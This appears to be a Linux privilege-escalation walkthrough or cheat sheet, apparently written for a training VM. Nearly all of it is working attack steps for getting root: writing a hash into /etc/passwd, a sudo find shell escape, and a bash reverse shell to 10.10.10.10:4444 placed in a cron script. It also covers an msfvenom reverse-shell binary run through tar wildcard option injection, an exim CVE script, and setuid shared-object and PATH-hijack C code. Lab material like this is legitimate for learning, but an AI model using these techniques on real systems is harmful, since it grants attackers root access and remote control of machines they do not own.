 ## Table of Contents

- [Weak File Permissions - Writable /etc/passwd](#weak\file\permissions\-\writable\/etc/passwd)
- [Sudo - Shell escape sequences](#sudo\-\shell\escape\sequences)
- [Cron jobs (File Permissions)](#cron\jobs\(file\permissions))
- [Cron Job wild cards](#cron\job\wild\cards)
- [SUID/SGID executables - Known Exploits](#suid/sgid\executables\-\known\exploits)
- [SUID/SGID executables - Shared Object Injection](#suid/sgid\executables\-\shared\object\injection)
- [SUID/SGID executables - Environment Variables](#suid/sgid\executables\-\environment\variables)


# Weak File Permissions - Writable /etc/passwd
The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some version of linux will still allow password hashes to be stored there.

`ls -l /etc/passwd`

Generate a new password hash with a password of your choice:

`openssl passwd newpasswordhere`

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

`su root`

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").  

Now switch to the newroot user, using the new password:

`su newroot`

# Sudo - Shell escape sequences
Run: 
`sudo -l`
Visit https://gtfobins.github.io/ and search for some of the program names, if the program is listed with "sudo" as a function, use it to elevate privileges.
```find -> root
sudo find . -exec /bin/sh \; -quit
```

# Cron jobs (File Permissions)
`cat /etc/crontab`
locate script that runs with sudo permissions and is writable. 
```
ls -l overwrite.sh

[script]
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

[from host machine]
nc -lvnp 4444
*Root Rev shell*
```


# Cron Job wild cards
View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.107.61 LPORT=4444 -f elf -o shell.elf ` 
>> transfer the file to /home/user on the target host (scp or webserver)
>
> chmod +x /home/user/shell.elf
> Create these two files in /home/user
>> touch /home/user/--checkpoint=1
>> touch /home/user--checkpoint-action=exec=shell.elf

When tar command in the cronjob runs, the wildcard will expand to include these files, since the filenames are valid tar command line options, tar will recognice them as such and treat them as command line optioins rather than filenames.
`nc -nvlp 4444`  

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

`rm /home/user/shell.elf   rm /home/user/--checkpoint=1   rm /home/user/--checkpoint-action=exec=shell.elf`

# SUID/SGID executables - Known Exploits

Find all the SUID/SGID executables:
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

# SUID/SGID executables - Shared Object Injection
The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`  

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Create the **.config** directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`  

Remember to exit out of the root shell before continuing!
(libcalc.c)
```C

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

# SUID/SGID executables - Environment Variables
The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`  

Remember to exit out of the root shell before continuing!
(service.c)
```C
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```


